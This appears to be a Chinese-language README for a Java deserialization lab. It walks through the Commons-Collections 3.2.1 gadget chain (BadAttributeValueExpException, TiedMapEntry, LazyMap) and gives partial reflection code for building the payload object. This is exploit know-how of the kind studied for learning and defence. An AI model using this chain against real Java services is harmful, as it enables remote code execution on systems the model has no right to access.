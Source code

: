 # Commons-collections-
Commons-collections反序列化利用环境

# Gadget利用链
此为Gadget利用链。后续有相关问题可参考http://1aker.xyz/2019/12/25/JAVA%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E4%B8%AD%E4%BA%A7%E7%94%9F%E7%9A%84%E4%B8%80%E4%BA%9B%E7%96%91%E9%97%AE/#more

# 此条链条需要的JAR包
        <dependency>
            <groupId>commons-collections</groupId>
            <artifactId>commons-collections</artifactId>
            <version>3.2.1</version>
        </dependency>
 
# 漏洞链分析
在BadAttributeValueExpException（import javax.management.BadAttributeValueExpException;） 
发现了重写readObject--> 在其中调用了toString方法-->寻找到TiedMapEntry重写了toString方法（使用getValue，间接用的MAP.get方法）--> 利用LazyMap.decorate包装恶意代码，在使用get方法触发块代码 
即Map lazyMap = LazyMap.decorate(innerMap, transformChain); 

# 正向分析
程序执行时，会解析到BadAttributeValueExpException类，然后执行其readObject 
该类值val由我们反射修改为LazyMap.decorate包装的恶意代码：
        BadAttributeValueExpException exception = new BadAttributeValueExpException(null); 
        Field valField = exception.getClass().getDeclaredField("val"); 
        valField.setAccessible(true); 
        valField.set(exception, entry);//利用反射钩取val变量并赋值为恶意包装类。 
然后由于该值在改变，所以触发了 
        Map innerMap = new HashMap(); 
        Map lazyMap = LazyMap.decorate(innerMap, transformChain); 
        TiedMapEntry entry = new TiedMapEntry(lazyMap, "foo233"); 
 其中的transformChain方法，达到代码执行 
 
